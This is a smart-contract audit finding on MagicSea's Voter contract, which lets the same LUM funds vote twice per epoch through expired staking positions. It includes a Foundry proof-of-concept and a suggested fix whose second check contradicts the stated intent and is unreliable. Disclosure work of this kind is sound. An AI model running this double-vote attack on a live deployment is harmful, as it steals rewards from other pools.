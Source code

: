 Joyous Cotton Cougar

Medium

# Users can vote with expired MLUM staking positions

## Summary

A user can use expired MLUM staking positions to vote, which will allow that user to vote twice in the same period with the same funds. 

## Vulnerability Detail

The `Voter` contract is designed to allow users who have MLUM staking positions to vote for pools that will receive rewards on the `MasterChef` contract. To prevent voting manipulation, the `Voter` contract performs some checks to ensure a fair voting mechanism, for example:
- The same MLUM staking position cannot vote twice in the same epoch.
- The MLUM staking position must be locked for a duration higher than the period duration.

These checks are enforced in `Voter::vote()`:

https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/Voter.sol#L166-L177
```solidity
    // check if alreay voted
    if (_hasVotedInPeriod[currentPeriodId][tokenId]) {
        revert IVoter__AlreadyVoted();
    }

    // check if _minimumLockTime >= initialLockDuration and it is locked
    if (_mlumStaking.getStakingPosition(tokenId).initialLockDuration < _minimumLockTime) {
        revert IVoter__InsufficientLockTime();
    }
    if (_mlumStaking.getStakingPosition(tokenId).lockDuration < _periodDuration) {
        revert IVoter__InsufficientLockTime();
    }
```

However, a user can trick the `Voter` contract and use the same LUM tokens to vote twice in the same epoch, which is explicitly not allowed.

The attack path is the following:
1. The user stakes LUM tokens for a duration that allows him to vote. 
2. When the lock duration of the staking position is just expired, the user votes with the expired position.
3. The user then withdraws the MLUM staking position
4. The user stakes again
5. The user votes with the new staking position

Following the described sequence a user can vote twice in the same epoch using the same LUM tokens, which is manipulating the voting results. Take into consideration that steps 2-5 can occur in the same block, which means that a user can execute this attack atomically.

A user can execute this attack with a great number of staking positions to manipulate the voting mechanism and achieve more rewards later on the `MasterChef` contract. 

## Impact

A user can use expired MLUM staking positions to vote twice in the same epoch using the same funds. This bug will allow an attacker to have more votes for the pool is voting for, which means that some pools will unfairly earn more rewards due to this bug, which is a loss of funds for other pools. 

## PoC

The following PoC shows how a user can use an expired MLUM staking position to vote twice in the same epoch using the same funds. Paste this test in the file `Voter.t.sol` and run it with the command `forge test --mt testVoteTwiceSamePeriod`.

```solidity
function testVoteTwiceSamePeriod() public {
    uint256 stakeAmount = 1e18;

    // Stake LUM to pool
    _stakingToken.mint(ALICE, stakeAmount);
    vm.startPrank(ALICE);
    _stakingToken.approve(address(_pool), stakeAmount);
    _pool.createPosition(stakeAmount, 2 weeks);
    vm.stopPrank();

    // After two weeks, staking position is just expired.
    vm.warp(2 weeks + 1);

    // Start new voting period
    vm.prank(DEV);
    _voter.startNewVotingPeriod();

    // Alice will vote with the expired position
    vm.prank(ALICE);
    _voter.vote(1, _getDummyPools(), _getDeltaAmounts());

    // Alice withdraws the funds and stake again
    vm.startPrank(ALICE);
    _pool.withdrawFromPosition(1, stakeAmount);

    _stakingToken.approve(address(_pool), stakeAmount);
    _pool.createPosition(stakeAmount, 2 weeks);

    // Now, Alice can vote again with the same funds
    _voter.vote(2, _getDummyPools(), _getDeltaAmounts());

    // Check that Alice has voted twice
    address pool = _getDummyPools()[0];
    assertEq(stakeAmount * 2, _voter.getTotalVotes());
    assertEq(stakeAmount * 2, _voter.getPoolVotesPerPeriod(1, pool));
    assertEq(stakeAmount * 2, _voter.getPoolVotes(pool));
}
```

## Code Snippet

https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/Voter.sol#L166-L177

## Tool used

Manual Review

## Recommendation

To mitigate this issue is recommended to check that the MLUM staking position used to vote has a remaining lock time higher than the epoch's duration. This way the contract will prevent users from voting with expired positions.

Below is a potential fix for this issue on the `vote` function:

```diff
+    uint256 start = _mlumStaking.getStakingPosition(tokenId).startLockTime;
+    uint256 duration = _mlumStaking.getStakingPosition(tokenId).lockDuration;

+    require(start + duration > block.timestamp);
+    require(start + duration - block.timestamp < _periodDuration);
```